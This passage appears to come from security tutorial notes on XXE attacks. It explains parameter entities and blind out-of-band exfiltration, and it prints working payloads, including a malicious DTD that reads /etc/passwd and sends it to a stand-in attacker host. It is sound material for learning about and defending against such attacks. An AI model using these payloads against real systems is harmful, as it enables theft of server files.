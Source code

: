 and use it to valid defined entity in the data value in the `XML`

- sometimes `XXE attacks` using regular Entities are Blocked, due to some input validation by the application or some hardening of the XML parser that is being used.
- in this situation you might be able to use `XML parameter Entities` , it is special kind of Entities which can only be referenced elsewhere within the `DTD`
- for this we only need 2 things
    1. declaration of an XML parameter entity include the `%` symbol before the entity name `<!ENTITY % myparameter_entity "parameter value">`
    2. parameter Entities are referenced using the `%` character instead of usual `&` character: `%myparameter_entityFinal Payload for XXE Blind using Parameter Entity payload`

```
<!DOCTYPE root [<!ENTITY % DK SYSTEM "<http://attacker.domain>"> %DK; ]>

```

## Exploit Blind XXE to Exfiltrate data out-of-band (OAST)

- detecting vulnerability via out-of-band technique is well but exploitation to exfiltrate data via this is not easy.
- This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
- **Example of malicious DTD**

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval " <!ENTITY &#x25; exfiltrate SYSTEM '<http://attacker.com> or we use burp collaborator/?x=%file;'> ">
%eval;
%exfiltrate

```

This `DTD` carries out the following steps

- defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval` containing a dynamic declaration of another XML parameter entity called `exfiltrate`.
- this exfiltrate entity will be evaluated by making HTTP request to the attacker's control web server containing the value of the `%file` entity to url query string.
- uses `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.
- the attacker must host this malicious `DTD` file in to his server `http://attacker.domain/malicious.dtd`
- and finally attacker need to submit the payload to the `xxe vuln` application.

```
<!DOCTYPE root [<!ENTITY % dk SYSTEM "<http://attacker.domain/malicious.dtd>"> %dk; ]>

```

## Exploiting XXE to retrieve data via error messages.
